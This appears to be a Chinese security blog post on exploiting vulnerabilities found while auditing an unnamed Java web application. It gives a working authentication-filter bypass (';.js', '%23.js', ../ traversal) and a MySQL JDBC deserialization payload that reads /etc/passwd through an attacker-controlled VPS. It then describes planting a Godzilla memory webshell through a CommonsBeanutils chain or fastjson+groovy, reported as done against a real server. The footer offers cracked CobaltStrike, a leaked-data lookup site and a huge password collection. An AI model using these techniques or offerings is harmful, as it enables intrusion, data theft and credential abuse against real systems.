 #  最近打点用的一些java漏洞   
 哈拉少安全小队   2024-12-12 01:41  
  
好久没写文章了，把最近打点审的几个漏洞分享一下。  
  
## filter权限绕过  
  
  
  
在 CurrentContextFilter 里，有四个关键方法。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7JEcvomvgSAweWrPzEY00pRxibx2HTSsE9YpgYmcnjxCeOePK8JTFV8A/640?wx_fmt=png&from=appmsg "")  
  
需要关注的方法，很明显可以看出，应该是：  
  
isExcludeResource(request.getRequestURI()) isStaticResource(request.getRequestURI()) isAnonPermission(request)  
  
从方法命名上可以看见分别代表含义 "是否排除的资源"、"是否是静态资源"、"是否是匿名权限"  
  
## 分析  
  
  
**isExcludeResource**  
  
isExcludeResource(request.getRequestURI()) 是判断当前url是否包含  
  
```
/xxxinterface/invoke
/metadata/xxx/findList"/ui/xxx/xxxLayoutPath"
/metadata/xxx/xxxColumns"/metadata/xxxx/xxxScene/ui/xxx/xxxPath
```  
  
  
  
如果包含以上值，则返回值是 true  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7zt27icJs5vyAwAHmv8q910t6b9JygmbZ7Uf1LCrUEvVHDIk5MmnuJNw/640?wx_fmt=png&from=appmsg "")  
  
**isStaticResource**  
  
  
isStaticResource(request.getRequestURI()) 是判断当前url是否包含****  
  
```
/static
/scripts
/css
.js
/js
.png
.jpg
/images
/fonts
.css
.html
/bpm/editor-app
.svg
.gif

```  
  
  
如果包含，返回值是 true  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7LAAwT6WwBN3d65ibqYTO5DkVN30yquaFnNmks0600cw0CqKh7BpO6fA/640?wx_fmt=png&from=appmsg "")  
  
在CurrentContextFilter里面，当两个方法返回值是true时，返回值是null。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7NhXcic4nAZib7Sf9pS0SxicF8TIgREwr2pRMT58Duhg3GRSluz8LDfxow/640?wx_fmt=png&from=appmsg "")  
  
在 dofilter 方法里面，也就是该 filter 触发时，如果当前 userAuthInfo 的值是 null，会直接去更新当前上下文 updateCurrentContext，也就是逻辑正常走完，没有中途通过 return 去退出。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7jDyFiaMSILftUOWeXt469XQPAic2MvgjShekoh8vV9qrqXQPk18nOfEQ/640?wx_fmt=png&from=appmsg "")  
  
**isAnonPermission**  
  
  
实际分析发现，此处是通过验证 redis 里面的 user-token 是否有效去验证用户权限的，因此不在分析范围内。  
  
## 漏洞验证  
  
  
直接访问某个接口的时候，会提示 Token is not present.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7jIiao7e51S6ezFBzCqc0WnY5RiaxtdhibbMicGQZ7x1MgrL643tjtuslAQ/640?wx_fmt=png&from=appmsg "")  
  
也就是在 getUserAuthInfo 方法里面执行到了下面这个位置  
  
如果想要跳过该 401 的提示，则需要将逻辑执行到上面的 return null 处。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7SiaTqsf5503QU36ic4IalTK3bPQvIDlkMwv1vl8icpaqAQJIshneHH3Ew/640?wx_fmt=png&from=appmsg "")  
  
此时就很清晰了，可以通过在 isStaticResource 方法或 isExcludeResource 方法去跳过该逻辑。  
  
以 isStaticResource 为例 也就是在当前的 url 里面添加静态资源或者添加某几个 url 即可绕过该限制。  
  
如通过在当前 url 添加静态资源后缀 js 时（;.js或者是#.js，#需要url编码为%23），即可绕过该 401 限制，回显数据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7icQ2DnzLK3Cz85VZmZmnDoBsJPA1u9VUEzibUApLx3mAVXqHy1Z4Bj3g/640?wx_fmt=png&from=appmsg "")  
  
以 isExcludeResource 为例  
  
如在当前的 url 里面添加特殊的 url，再利用 ../ 去跨越路径也可以绕过。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7618M4ZHBC66Hk84BJQR2F7GQMx9HibiaSdQOYhZ1aAhzT2hjGutqVs5w/640?wx_fmt=png&from=appmsg "")  
  
其他情况？  
  
如果走 2 和 3 的逻辑，则 token 是在 redis 里面存着的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7JPNVSkD98dQ3znlOlF4RpLnOKSjTL9o33GnmlyibwJwGibC5BLiaWEibnQ/640?wx_fmt=png&from=appmsg "")  
  
这种情况无法去伪造，即便是 jwt 的密钥是硬编码的情况下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC74Ha7XKap2Yx2c0zLO9RDF9NNLRKIiaepibmwHsoaDkugzYBH9GvhVUIQ/640?wx_fmt=png&from=appmsg "")  
  
如果请求头里面的 token 是以 basic 为开始的，则有可能可以去伪造 token  
  
即 Authorization: Basic YWRtaW46MTIzNDU2  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7d0pyJtsibU4uXsmBibVboZXsz5b5GSRD7fobXXGqbqZIV4iaQZoUcv2Ag/640?wx_fmt=png&from=appmsg "")  
  
但暂时未在当前 jar 里面找到实现该逻辑的代码块。  
  
## Mysql jdbc反序列化  
  
  
在 DmXXXXController 里  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7avEibvEkqwlpEzSIbYQvhNWufzqjhOExvGAK7KR9NpbLyOvZ7tKboNQ/640?wx_fmt=png&from=appmsg "")  
  
在 DmXXXServiceImpl 里面找到 importDmByJdbc 的实现方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7QqCicwwq8Jibxo15OMxYBoibxNBZP59Yf7IDJLMDyiczqN66lC8zDXqAkA/640?wx_fmt=png&from=appmsg "")  
  
再跟入到 JdbcUtils.getMetaTableList 里面看见了 DriverManager.getConnection，且 url 可控和 lib 目录下存在 mysql-connector-java-8.0.14.jar，也就能打mysql jdbc反序列化漏洞了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7micMe2t3K3VnBSAHLaoQG4rYGib34nB5kcbwpWIjQ9104rtxb9wVH7ZQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7FBOC9eMXjrv9NgOnd4OHFJCeSQp2ysDDo6GyFYqJXjcXWiaFZBdtUibA/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞验证  
  
  
构造读取 /etc/passwd 的 payload  
  
```
{"url":"jdbc:mysql://x.x.x.x:3308/test?user=base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=","user":"base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=","pwd":"123","appCode":"admin"}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC71MQIWnJoqAL21tHpH6Wu88przmvCFGiazReloTH9nARBYtJv8u13UBg/640?wx_fmt=png&from=appmsg "")  
  
vps 上收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7CIicJ2h4C1zQegeb4sUMMt8mf578dcoSKQ8CIhlXGI5COTrt37Ckpkw/640?wx_fmt=png&from=appmsg "")  
  
然后就成功读取到对方 linux 服务器上的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7QWtx1I7xdJYL4z2EotnBCGiamMvKYxp6VJguQbbgc8Lc9zdMvSbqfdg/640?wx_fmt=png&from=appmsg "")  
  
此时尝试打内存马，用的cb链生成的哥斯拉内存马。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7hD3jm8WibaLIgrPLleE5UUeJMicfER30cnhLuaiaHqlyvxIYB0MzYKJ8g/640?wx_fmt=png&from=appmsg "")  
  
发包后服务器收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7xfOCNMcFibzGeA7bndvbvQvOvOt6Ktqe43ssFwQpuPx1GKIZ3GB8Spg/640?wx_fmt=png&from=appmsg "")  
  
哥斯拉尝试连接，并连接成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7fWKGfCwGo66BiaiabpNU1s8MmNkMybbu7Ygic7nG661vqr2ubTs65U1BQ/640?wx_fmt=png&from=appmsg "")  
  
## Fastjson+groovy反序列化  
  
  
此处也能通过 fastjson+groovy 去打内存马  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7kOf50qnb3wVFG63PLV8sevUuv2PqX2nQ22KzZ7CP4XGVK4b0fPUCOQ/640?wx_fmt=png&from=appmsg "")  
  
且存在 groovy 的依赖  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaHPCQdRh2mCiaBvxTF54w6bMvfIvaVAC7WzpY2pX5No7FWqzUWe2lcORcv12ibyb0AMX6T0DdDES6eyu8zNrHZqw/640?wx_fmt=png&from=appmsg "")  
  
## 总结  
  
  
多审计 day，打点才能事半功倍。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HWREJselCribXKZnW4g6I2gicDlib73KLnWBMib7xPga814txqfxcPWBtkYhkXX3BVdG42szWtx3eib5YmzeeuoibE1Q/640?wx_fmt=png "")  
  
关注公众号后台回复 0001  
 领取域渗透思维导图，0002  
 领取VMware 17永久激活码，0003  
 获取SGK地址，0004  
 获取在线ChatGPT地址，0005  
 获取 Windows10渗透集成环境  
，0006  
 获取 CobaltStrike 4.9.1破解版  
，  
0007  
 获取  
100亿密码合集  
  
  
  
  
  
加我微信好友，邀请你进交流群  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaHPCQdRh2mD7k15P3gvI6IxzUohyGZicOqn7LDO0yXmtSuZtNh9gWULo1m2N435YwLmtlMFQibzTAuB4d4dMbjMw/640?wx_fmt=png "")  
  
  
备用号，欢迎关注  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/MfTd6rd9CyvNRMW8I9cvI1CK5gKiaYqg2veTn9t9dAe1GxYic7pAvgvRIKNFickConFyX8AvW2reAq8GchJI6aBpA/640?wx_fmt=gif "")  
  
  
  
